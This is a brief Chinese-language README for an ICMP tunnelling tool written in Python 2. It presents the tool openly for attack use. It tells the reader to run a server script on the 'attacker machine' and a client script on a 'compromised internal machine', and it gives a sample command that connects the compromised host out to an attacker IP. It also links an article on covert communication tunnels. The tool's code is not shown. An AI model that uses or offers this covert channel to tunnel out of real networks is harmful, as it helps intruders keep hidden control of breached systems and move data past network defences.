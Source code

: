 # Icmp_tunnel ICMP隧道 
运行环境：python2  
外网攻击机：python IcmpTunnel_S.py  
内网失陷机：python IcmpTunnel_C.py 外网攻击机IP 内网失陷机IP 端口号  
```shell
python IcmpTunnel_C.py 1.1.1.1 127.0.0.1 80
```
案例：[隐藏通信隧道技术-ICMP隧道-协议解析-1](https://mp.weixin.qq.com/s/gN3Pjlo8T1aDSSUoABiLNg)